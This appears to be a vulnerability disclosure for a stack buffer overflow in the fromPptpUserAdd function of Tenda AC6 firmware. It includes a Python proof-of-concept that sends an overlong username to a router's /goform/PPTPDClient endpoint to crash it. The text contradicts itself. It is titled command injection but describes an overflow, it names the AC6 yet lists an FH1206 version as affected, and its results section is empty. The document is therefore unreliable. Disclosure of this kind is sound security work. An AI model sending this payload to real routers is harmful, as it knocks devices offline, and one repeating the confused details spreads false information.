



# Command Injection Vulnerability in Tenda AC6 Firmware

## Vulnerability Overview
There is a stack-based buffer overflow vulnerability in the Tenda AC6 firmware version 15.03.05.16_multi.
The vulnerability exists in the fromPptpUserAdd function of the firmware. Specifically, the username parameter, which is obtained via the HTTP request using websGetVar, is copied directly into a fixed-size buffer without proper length validation.

In the vulnerable function, the username value (stored in variable Var) is later used in multiple sprintf calls to construct configuration strings (e.g., sprintf(s_4, "1;%d;%s;%s;%s;%s;%s;%s", i, Var, ...)). Since the destination buffer s_4 has a fixed size of 1024 bytes and no boundary checks are performed, an attacker can provide an overly long username input to trigger a buffer overflow.

This flaw allows a remote attacker to send a specially crafted HTTP request with a malicious username parameter, causing a stack-based buffer overflow and leading to a device crash (DoS). In certain scenarios, it could potentially be exploited to achieve arbitrary code execution.

## Root Cause

The vulnerability arises from improper sanitization of user input and unsafe use of sprintf when handling the username parameter, which directly overwrites stack memory.



## Affected Versions
- Tenda FH1206 V02.03.01.35


## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/PPTPDClient"

data = {"username": "E"*1000, "flag": "0"}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
```

### PoC Run Results:



## Mitigation
- Apply the latest firmware update from Tenda to address this issue.
- Ensure proper input validation and sanitization to prevent command injection attacks.

